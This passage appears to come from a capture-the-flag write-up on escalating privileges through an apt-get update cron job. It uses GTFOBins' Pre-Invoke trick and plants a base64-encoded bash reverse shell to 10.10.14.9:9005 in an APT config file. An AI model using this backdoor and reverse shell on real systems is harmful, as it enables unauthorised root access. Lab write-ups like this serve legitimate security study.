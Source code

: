 There is one:
```
/usr/bin/apt-get update
```

Looking at gtfobins we see a way to execute commands with it:  
```
https://gtfobins.github.io/gtfobins/apt-get/
```

It normally can be done like that:  
```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

But we can also put this line in a config file:  
```
APT::Update::Pre-Invoke::=/bin/sh
```

I will put base64 encoded reverse shell in there:  
```
{% raw %} APT::Update::Pre-Invoke {"echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS85MDA1ICAwPiYxCg== |base64 -d |bash"}; {% endraw %}
```
![obraz](https://github.com/user-attachments/assets/f5a5d51d-cdc4-43e1-9bcd-5810446a3aa4)

After that we start a listener and wait for cron to run:  

![obraz](https://github.com/user-attachments/assets/38af822d-d015-4c87-a6c2-7e87a8c1c75c)

Thanks for reading!  












































